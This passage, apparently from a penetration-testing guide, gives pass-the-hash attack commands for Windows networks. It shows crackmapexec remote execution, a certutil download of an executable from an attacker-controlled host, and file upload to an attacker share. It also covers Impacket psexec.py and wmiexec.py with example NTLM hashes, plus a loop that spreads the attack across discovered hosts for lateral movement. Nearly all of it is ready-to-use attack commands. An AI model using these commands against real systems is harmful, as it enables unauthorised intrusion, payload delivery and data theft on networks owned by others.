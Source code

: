 ```bash
# Execute PowerShell commands
crackmapexec smb <target_ip> -u Administrator -H <hash> -X "Get-Process"

# Download file
crackmapexec smb <target_ip> -u Administrator -H <hash> -x "certutil -urlcache -f http://<your_ip>/file.exe C:\\temp\\file.exe"

# Upload file
crackmapexec smb <target_ip> -u Administrator -H <hash> -x "copy C:\\temp\\file.exe \\\\<your_ip>\\share\\file.exe"
```

## Impacket Toolkit Approach

### psexec.py

```bash
# Using Impacket's psexec
psexec.py -hashes <lm_hash>:<ntlm_hash> <domain>/<user>@<target_ip>

# Example
psexec.py -hashes 00000000000000000000000000000000:32ED87BDB5FDC5E9CBA88547376818D4 Administrator@192.168.1.100
```

### wmiexec.py

```bash
# WMI execution (often more reliable)
wmiexec.py -hashes <lm_hash>:<ntlm_hash> <domain>/<user>@<target_ip>

# Example
wmiexec.py -hashes 00000000000000000000000000000000:32ED87BDB5FDC5E9CBA88547376818D4 Administrator@192.168.1.100
```

## Practical Attack Scenarios

### Scenario 1: Lateral Movement

```bash
# After compromising one host, move to others using same credentials
# Discover network hosts
nmap -sn 192.168.1.0/24

# Attempt PtH on all discovered hosts
for ip in $(cat hosts.txt); do
    crackmapexec smb $ip -u Administrator -H <hash> -x "whoami"
done
```
